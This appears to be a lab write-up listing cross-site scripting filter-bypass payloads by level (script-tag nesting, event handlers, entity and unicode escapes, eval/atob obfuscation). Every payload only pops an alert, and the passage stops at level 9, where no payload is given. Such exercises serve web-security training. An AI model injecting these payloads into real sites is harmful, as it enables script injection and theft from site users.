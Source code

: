 ## Lab - 11 Levels to Bypass XSS

### 1 - normal

```js
<script>alert("l33t")</script>
```

### 2 - bypass script

```js
<script<script>>alert("l33t")</script>
```

### 3 - no script allowed

```js
<img/src onerror=alert("l33t")>
```

### 4 - no script / no ON allowed

```js
<svg><script>alert('l33t')
```

### 5 - no ON, no functions

```js
<svg><script>alert&lpar;'l33t'&rpar;
```

### 6 - no alert

```js
<script>\u0061lert('l33t')</script>
```

### 7 - No Unicode escaping / no alert

```js
<script>eval('\x61lert(\'l33t\')')</script>
```

### 8 - No alert / no products

```js
[NL]eval('x61lert(\'l33t\')'
</Title/</script/><Input Type=Text Style=position:fixed;top:0;left:0;font-size:999px */; Onmouseenter=confirm`l33t` //>#
</Title/</script/><img src=x onerror="\u0061lert('l33t')"/>#
</script><svg onload="eval(atob('YWxlcnQoJ2wzM3QnKQ=='))"> 
```

### 9 - stronger bypass - no alert / no products
